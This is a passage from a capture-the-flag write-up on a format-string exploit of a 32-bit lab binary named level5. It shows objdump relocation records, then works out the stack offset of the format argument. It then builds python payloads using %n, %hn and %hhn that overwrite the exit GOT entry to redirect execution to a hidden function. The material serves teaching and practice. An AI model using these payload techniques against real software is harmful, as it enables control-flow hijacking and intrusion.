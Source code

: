 However, upon closer inspection, the address that the PLT entries jump to isnt to the function instruction themselves, but **rather pointers to the function instructions** (notice how they derefrences the addresses when jumping). These addresses exist in another section, called the **global offset table (GOT)**, which is writable. These addresses can be directly obtained by displaying the **dynamic relocation entries** for the binary by using objdump. `objdump -R ./level5`

```
./level5:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin
08049824 R_386_JUMP_SLOT   printf
08049828 R_386_JUMP_SLOT   _exit
0804982c R_386_JUMP_SLOT   fgets
08049830 R_386_JUMP_SLOT   system
08049834 R_386_JUMP_SLOT   __gmon_start__
08049838 R_386_JUMP_SLOT   exit
0804983c R_386_JUMP_SLOT   __libc_start_main
```

This shows that the address `0x08049838` will be onw one getting called. We can overwrite the value of this address using printf to the instruction for the `o()` function, which is `0x080484a4` based on the disassembly objdump.

Now we know where to write to and what to write, its time to go over the procesures of
1. Generate mapping of address to determine how many times we want to write
2. Finding the format string (first arg) value location
3. Calculate number of bytes written and generate payload

The mapping/segmentation `080484a4` should look like this
```
0x08049838 - 0x4a4
0x08049839 - 0x8048
```

with the input `BBBB%x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x`, I got this output `BBBB200 b7fd1ac0 b7ff37d0 42424242 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 a`, which indicates that the first args value is at the foruth call of %x.

Using the following input
`python -c "print '\x08\x04\x98\x38'[::-1] + '\x08\x04\x98\x3a'[::-1] + '%1180x' + '%4\$n' + '%31652x' + '%5\$n'" > /tmp/level5`, I did not get the results I want. Because **by default, %n writes 4 bytes, which causes overlaps on smaller values**
![image](https://hackmd.io/_uploads/S1aqYpYSa.png)

So, we need to find a way to make it so that the values dont overlap each other. There is a way to make **%n write as short, using %hhn for 1 byte, and %hn for 2 bytes**.
The new mapping/segmentation `080484a4` should look like this
```
0x08049839 - 0x84
0x08049838 - 0xa4
0x0804983a - 0x804
```
As well as the new input
`python -c "print '\x08\x04\x98\x39'[::-1] + '\x08\x04\x98\x38'[::-1] +  '\x08\x04\x98\x3a'[::-1] + '%120x' + '%4\$hhn' + '%32x' + '%5\$hhn' + '%1888x' + '%6\$n' " > /tmp/level5`
